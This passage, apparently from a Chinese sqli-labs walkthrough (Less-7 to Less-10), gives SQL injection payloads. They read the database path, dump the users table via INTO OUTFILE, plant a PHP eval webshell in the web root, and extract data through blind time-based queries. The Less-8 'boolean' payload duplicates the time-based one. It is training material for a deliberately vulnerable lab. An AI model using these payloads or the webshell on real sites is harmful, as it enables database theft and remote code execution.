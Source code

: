 但需要网站的绝对路径

```
//@@datadir输出数据库中数据的存放路径
?id=-1' union select 1,2,@@datadir--+
//得到Your Password:D:\phpstudy_pro\Extensions\MySQL5.7.26\data\
```

利用 into outfile 导出文件

```
//需要修改my.ini
secure_file_priv的值为null时,表示限制mysql不允许导入,导出
secure_file_priv的值为/tmp/,表示限制mysql的导入,导出只能发生在/tmp/目录下
secure_file_priv的值没有具体的值""时表示不对mysql的导入导出做出限制
```

将数据库里面的信息导出到文件中

```
?id=-1')) union select * from security.users into outfile "D:\\phpstudy_pro\\WWW\\other\\sqli-labs\\Less-7\\users.txt" --+
```

也可以写进webshell

```
?id=-1')) union select 1,2,"<?php @eval($_POST['aaa']);?>" into outfile "D:\\phpstudy_pro\\WWW\\other\\sqli-labs\\Less-7\\shell.php" --+
```

### Less-8 GET - Blind - Boolian Based - Single Quotes

布尔型单引号GET盲注

vul

```
$id=$_GET['id'];

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

bypass

```
?id=1' and if(ascii(substr(database(),1,1))>1,sleep(5),sleep(1)) --+
```

### Less-9 GET - Blind - Time based. - Single Quotes 

基于时间的GET单引号盲注

bypass

```
?id=1' and if(ascii(substr(database(),1,1))>1,sleep(5),sleep(1)) --+
```

### Less-10 GET - Blind - Time based - double quotes
